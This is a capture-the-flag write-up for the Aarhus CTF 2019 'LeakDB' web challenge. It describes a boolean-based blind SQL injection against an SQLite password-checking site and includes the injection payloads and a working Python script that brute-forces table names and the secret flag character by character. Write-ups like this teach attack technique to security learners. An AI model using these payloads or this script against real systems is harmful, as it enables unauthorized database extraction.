







# Aarhus CTF 2019 - LeakDB
#### (Web, 484 Points, 5 Solves)
*By Team "! leftovers" (Sam Beresford & Emilie Bjerg)*

----
## Challenge Description:
We are being asked to find a flag located somewhere on the provided website. A hint, about the necessity of brute-forcing being required to solve this challenge is given, suggesting that some form of blind SQL injection may be required.

<p align="center">
  
</p>

----
## Solution
The website allows a user to enter a password and then checks if this has been leaked by looking it up in its database. The website can give three different responses depending on the input it is given.

<p align="center">
	
	
	
</p>

The *"failed"* response occurs when the query is invalidated. The *"Congratulations"* response occurs when the query returns *False*. Whereas the *"Oh no..."* response occurs when the query returns *True*.

The *"The SQLite query failed"* response, reveals the database management system to be **SQLite**.
Whilst the other two responses enable us to perform a **boolean-based blind SQL injection**.

With this information we can write a script to brute-force the table names of the database, as we are able to detect whether or not our statements return true.

Our table name brute-force returns *"LEAKED_PASSWORDS"* and ***"SECRETS"***.
<p align = "center">
	
	
</p> 

Having found the table names we can try to brute-force the first entry in the table ***"SECRETS"***, this returns the flag.
<p align = "center">
	
</p>

## Flag:
*CTF{OH_DID_YOU_JUST_DUMP_ME?}*

---
## Code used

```python
import requests
import re

url = "http://165.22.90.215:8085"

# Bruteforcing of passwords in table"
# basePayload = "' OR password like '" 

# Bruteforcing SQLite database table names
# basePayload = "' UNION SELECT name FROM sqlite_master WHERE type='table' AND name LIKE '"
# Results:
# LEAKED_PASSWORDS
# SECRETS


# Bruteforce entry in SECRET table
basePayload = "' OR (SELECT * from SECRETS) LIKE '"

known = ""
i = 32 #Try ascii chars from 32(Space) to 125(})
while i < 126:
  # print known + chr(i)
  if i == 37: # Escape '%' character
    payload = basePayload + known + "\\" + chr(i) + "%'-- ";
  else:
    payload = basePayload + known + chr(i) + "%'-- ";
  # print payload

  response = requests.post(url, data = {"pass" : payload})
  content = response.text

  if len(re.findall('Oh no', content)) > 0: # Check if oh no... exists (Query = True)
    known += chr(i)
    print known
    i = 32 # Reset for next character
  i+=1
print known
```

## Challenge Solved!
---
*Writeup by Sam Beresford & Emilie Bjerg*